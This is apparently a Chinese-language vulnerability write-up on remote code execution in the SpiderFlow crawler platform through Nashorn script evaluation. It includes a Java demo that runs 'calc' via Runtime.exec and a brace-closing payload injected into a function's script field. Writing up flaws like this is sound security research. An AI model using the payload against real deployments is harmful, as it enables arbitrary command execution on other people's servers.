




### SpiderFlow RCE via Nashorn

#### 前置知识

— Nashorn是什么？怎么用？

##### What

Nashorn是于Java 8中用于取代Rhino（Java 6，Java 7）的JavaScript引擎。

##### How

> 实现如何用Nashorn在Java中执行JS代码即可



测试效果


##### RCE 

Nashorn定义了一个称为Java的新的全局对象，它包含许多有用的函数来使用Java包和类。

Java对象的` type()`函数将Java类型导入脚本中。

示例


那么如何弹计算器的呢？

示例

```java
package org.spiderflow.demo;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
class JsFromJava{
    public static void main(String args[]) throws Exception {
        String evilJs="var RCETest= Java.type(\"java.lang\"+\".Runtime\"); var rt = RCETest.getRuntime(); rt.exec(\"calc\");";
        ScriptEngineManager manager = new ScriptEngineManager(null);
        ScriptEngine engine = manager.getEngineByName("nashorn");
        engine.eval(evilJs);
    }
}
```



#### 审计思路

有了上面的测试，审计这类漏洞尝试搜索`.eval(`等关键字即可，然后再看看源码是否实现`jdk.nashorn.api.scripting.ClassFilter`进行了过滤。

#### 漏洞复现

- 全局搜索`.eval(`



- 跟进

  - org.spiderflow.core.script.ScriptManager#registerFunction

    

  - org.spiderflow.core.script.ScriptManager#concatScript

    

- 构造payload,闭合一下

  ```js
  # function+functionName+(+parameters+)+{+script+}
  	functionName: rce
  	parameters: demo
  	script:	}Java.type("java.lang.Runtime").getRuntime().exec('calc');{
  # function rce(){demo}Java.type("java.lang.Runtime").getRuntime().exec('calc');{}
  ```

  复现效果：

  

  
